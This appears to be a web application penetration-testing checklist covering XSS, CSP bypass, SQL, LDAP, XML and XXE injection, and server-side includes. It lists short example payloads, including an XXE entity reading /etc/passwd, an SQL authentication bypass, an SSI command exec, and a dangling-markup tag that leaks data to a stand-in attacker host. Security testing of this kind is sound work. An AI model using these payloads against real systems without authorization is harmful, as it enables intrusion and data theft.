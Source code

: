 ### Test for Stored Cross-Site Scripting (XSS)
- [ ] Identify stored input fields (profiles, comments, file uploads)
- [ ] Test with HTML tags or XSS payloads in filenames
- [ ] Check for XSS in settings, forums, or shopping carts

### Test for DOM-Based Cross-Site Scripting
- [ ] Identify DOM sinks (`document.write`, `eval`, `location.href`)
- [ ] Test payloads tailored to sinks (`javascript:alert(1)`)
- [ ] Test mutation XSS by manipulating DOM events (`onerror`, `onload`)
- [ ] Check for JavaScript prototype pollution (`__proto__.malicious=alert(1)`)
- [ ] Test Angular/React-specific XSS (`{{constructor.constructor('alert(1)')()}}`)

### Test for Content Security Policy (CSP) Bypasses
- [ ] Check CSP headers for weak policies (`unsafe-inline`, `unsafe-eval`)
- [ ] Test for dangling markup injection (`<img src="http://attacker.com?data=">`)
- [ ] Exploit JSONP endpoints to bypass CSP (`/jsonp?callback=malicious`)
- [ ] Test for missing or overly permissive `script-src` directives

### Test for HTTP Parameter Pollution
- [ ] Identify backend parsing methods (first/last parameter precedence)
- [ ] Test parameter pollution (`param=1&param=2`)
- [ ] Bypass filters using multiple parameters or malformed inputs

### Test for SQL Injection
- [ ] Test authentication forms, search bars, and editable fields
- [ ] Use SQLmap or manual payloads (`' OR 1=1 --`)
- [ ] Apply obfuscation:
  - [ ] URL encoding (`%27` for `'`)
  - [ ] Mixed case or null bytes (`%00`)
  - [ ] Time-based or Boolean-based queries (`SLEEP(5)`)
- [ ] Test GET, POST, COOKIE, and HEADER injections

### Test for LDAP Injection
- [ ] Use LDAP search filters (`*)(uid=*))`)
- [ ] Test for access control bypass via LDAP injection

### Test for XML Injection
- [ ] Check for XML processing and inject metacharacters (`<!ENTITY>`)
- [ ] Construct XSS or XXE payloads within XML

### Test for XML External Entity (XXE) Injection
- [ ] Test XML inputs for XXE
  - `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`
- [ ] Attempt SSRF via XXE to access internal resources or cloud metadata

### Test for Server-Side Includes (SSI)
- [ ] Use Google Dorks to find SSI keywords (`<!--#include`)
- [ ] Test for RCE or other injections via SSI (`<!--#exec cmd="whoami" -->`)
